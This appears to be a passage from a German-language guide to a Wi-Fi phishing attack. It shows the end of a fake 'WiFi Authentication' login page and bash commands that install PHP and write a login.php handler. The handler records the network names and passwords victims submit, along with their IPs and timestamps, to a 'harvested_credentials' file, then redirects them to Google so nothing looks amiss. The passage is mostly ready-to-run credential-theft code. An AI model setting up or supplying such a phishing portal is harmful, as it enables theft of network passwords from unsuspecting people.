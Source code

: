 ```bash
        .info {
            text-align: center;
            color: #666;
            font-size: 12px;
            margin-top: 15px;
        }
    </style>
</head>
<body>
    <div class="container">
        <h2>🔒 WiFi Authentication</h2>
        <form action="login.php" method="POST">
            <input type="text" name="ssid" placeholder="Network Name (SSID)" required>
            <input type="password" name="password" placeholder="Network Password" required>
            <button type="submit">Connect to WiFi</button>
        </form>
        <div class="info">
            Please enter your WiFi credentials to continue
        </div>
    </div>
</body>
</html>
EOF
```

#### PHP Handler für Credentials

```bash
# Installiere PHP
apt-get install php libapache2-mod-php

# Erstelle PHP-Script
cat > /var/www/html/login.php << 'EOF'
<?php
// Log credentials
$ssid = $_POST['ssid'] ?? '';
$password = $_POST['password'] ?? '';
$timestamp = date('Y-m-d H:i:s');
$ip = $_SERVER['REMOTE_ADDR'];

// Save to file
$logfile = '/tmp/harvested_credentials.txt';
$entry = "$timestamp | IP: $ip | SSID: $ssid | Password: $password\n";
file_put_contents($logfile, $entry, FILE_APPEND);

// Redirect to "success" or real site
header('Location: http://www.google.com');
exit;
?>
EOF

# Restart Apache
systemctl restart apache2
```
